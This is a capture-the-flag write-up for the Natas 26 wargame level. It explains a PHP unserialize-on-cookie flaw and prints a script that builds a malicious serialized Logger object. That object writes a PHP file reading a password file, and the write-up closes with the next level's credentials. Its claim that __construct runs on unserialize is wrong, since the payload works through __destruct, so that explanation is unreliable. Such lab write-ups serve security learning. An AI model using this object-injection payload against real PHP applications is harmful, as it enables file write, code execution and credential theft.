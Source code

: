 # Natas-26

Its an application for drawing a line by providing the initial and final coordinates .

Looking at the source code .

```php
<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }  
?>
```

After drawing the image and showing the image the function storeData() is called . 

```php
function storeData(){
        $new_object=array();
        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }   
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }   
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
```

all the input coordinates are stored in an array called $new_object . It checks then if there is a cookie by the name drawing else it creates an array called $drawing and adds the array $new_object to it . Then the $drawing gets serialized and stores it as a cookie .

And when we give the coordinates for another line. Since there is already a cookie called drawing .if (array_key_exists("drawing", $_COOKIE)) this condition would be satisfied so the cookie will be unserialized and the new coodrinates will be appended to this unserialized drawing array .

Since the cookies are being deserialised we can inject an object into it as one of the arrays and invoke a call to one of the magic functions in a class which has dangerous code .There is one such class called Logger()

```php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg; 
       function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
```

 Logger() has a __construct function which will be invoked when unserialized is called and the injected object is initialised . the Loggers __construct function creates a file and writes content to it. So all we need to do is create a .php file and write a php code to read files so that we can get the password for natas 27 . So we need to inject a Logger object with $this→logFile=’img/pwned.php’ and

 $this→initMsg= ‘<?php file_get_contents(’/etc/natas_webpass/natas27’)?>’ .

Code to create the malicious cookie .

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="flag\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/pass.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o));

?>
```

```
Username : natas27
Password : 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```

